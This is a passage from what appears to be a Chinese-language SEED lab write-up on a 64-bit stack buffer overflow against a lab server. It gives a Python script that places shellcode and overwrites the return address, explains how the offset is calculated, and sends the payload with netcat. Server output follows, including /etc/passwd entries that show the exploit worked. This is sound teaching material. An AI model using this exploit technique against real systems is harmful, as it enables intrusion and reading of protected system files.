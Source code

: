 ```python
# Put the shellcode somewhere in the payload
start = 0               # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x00007fffffffe540 # Change this number
offset = 216                # Change this number

# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] = (ret).to_bytes(8,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)
```

其中，

- shellcode 即为 `shellcode_64.py` 中的 shellcode
- start 设定为一个较小的值，可以直接取 $$0$$
- ret 设定为 buffer 的地址
- $$\text{offset}=$$`0x00007fffffffe610`$$-$$`0x00007fffffffe540`$$+8$$

然后执行

```shell
./exploit.py
cat badfile | nc 10.9.0.7 9090
```

得到了结果

```plaintext
server-3-10.9.0.7 | Got a connection from 10.9.0.1
server-3-10.9.0.7 | Starting stack
server-3-10.9.0.7 | Input size: 517
server-3-10.9.0.7 | Frame Pointer (rbp) inside bof(): 0x00007fffffffe610
server-3-10.9.0.7 | Buffer's address inside bof ():   0x00007fffffffe540
server-3-10.9.0.7 | total 148
server-3-10.9.0.7 | -rw------- 1 root root 380928 Jul 10 16:05 core
server-3-10.9.0.7 | -rwxrwxr-x 1 root root  17880 Jun 15 08:41 server
server-3-10.9.0.7 | -rw-r--r-- 1 root root  17064 Jun 15 08:41 stack
server-3-10.9.0.7 | Hello 64
server-3-10.9.0.7 | gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
server-3-10.9.0.7 | nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
server-3-10.9.0.7 | _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
server-3-10.9.0.7 | seed:x:1000:1000::/home/seed:/bin/bash
```

## Task 5: Level-4 Attack
